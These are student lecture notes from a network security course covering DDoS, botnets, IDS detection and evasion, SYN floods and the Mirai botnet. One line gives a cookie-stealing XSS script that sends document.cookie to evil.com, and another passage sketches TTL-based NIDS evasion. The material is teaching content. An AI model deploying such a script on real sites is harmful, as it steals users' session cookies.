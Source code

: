 # Lecture 23 : Network Security
### Mon 5/8/17

-------------------------------------------------

#### Last Time:
Abstraction: Secure channel
Purpose: Prevent malicious observers
![botnet](./img/botnet.png)



### Today:
- Attacker's Goal: prevent legit access to an internet resource
- Attacker's Method: DDoS Attacks - Distributed Denial of Service
    - [Wiki on DDoS DNS ](https://en.wikipedia.org/wiki/Distributed_denial-of-service_attacks_on_root_nameservers)
    - Lost revenue
    - DNS outages
    - High frequency trading

### Botnets
- Attackers use botnets to launch DDoS attacks
    - You can rent botnets
    - build your own

- How do computers get infected by botnet trojans?
    - Phishing Attacks
    - Cross-Site Scripting Attacks (XSS)
        - user visits a compromised website
        - HTML tag ```html
         <script> document.location = 'http://evil.com/blah.cgi?cookie=' + document.cookie; </script> ```
        - XSS Attack yields the user's cookie for that trusted site.
        - XSS doesn't have to access cookies. Any website executing malicious JS on the clientside is a XSS attack. (Does NOT have to have cookies enabled.)
    - These attacks can install code on your machine, which acts as a rootkit
- After bots are infected, they contact a C&C server (command and control).
    - receives commands like `dos(<IP>)`

### Preventing Botnets
- Can we just block the IP of the C&C machine?
    - they employ DGA (domain generation algorithms) to just switch to new IPs if one is blocked

- Can we just run anti-virus on every machine?
    - Most machines do not know they are infected.

- Look for offending packet?
    - They're usually encrypted somewhat

- Detect attack characteristics?
    - Network Intrusion Detection Systems (NIDS)

### Detecting Attacks
- NIDS:
    1. Signature Based
        - makes a signature out of parameters of an attack
        - Some attacks have known signatures
        - Fails to detect brand new attacks
    2. Anomaly Based
        - recognize unusual traffic

- NIDS can be tricked, by sending many packets with varying TTL (time to live).
    - If trying to send the command `root`, maybe each of those chars has a TTL of 25
    - inbetween each char are sent random letters with TTL of 20
    - anywhere in the first 20 hops of the path, you would see 'rxxxxoxxoxxxtxx' instead of 'root'

### Attacks w/ Legit tradeoff
1. Make requests for intense computations (run an infinite loop or huge query)
2. TCP SYN Flood
    - TCP handshake uses (SYN => SYN-ACK => ACK) three-way handshake. For each SYN, the server must save some state (like port #)
    - Send SYNs without ACKs at high frequency
    - fill all state space, and victim will time out


3. ACK Clocking
    - Effectively DOS yourself
    - send 'optimistic' ACKs to the machine so it increases its sending beyond what the network can handle
    - exploits TCP slow-start

- Attackers can also mount attacks by controlling routers
    - fake announcement that it has a better route to destination than is real.

- Merai Botnet controls IoT devices
    - IoT things dont get upgraded.
    - DDoSed Dyn. (DNS provider)
    - took down Spotify, Twitter, Etc by taking down 1 service.
    - About only 10% of the botnet was used to do this.
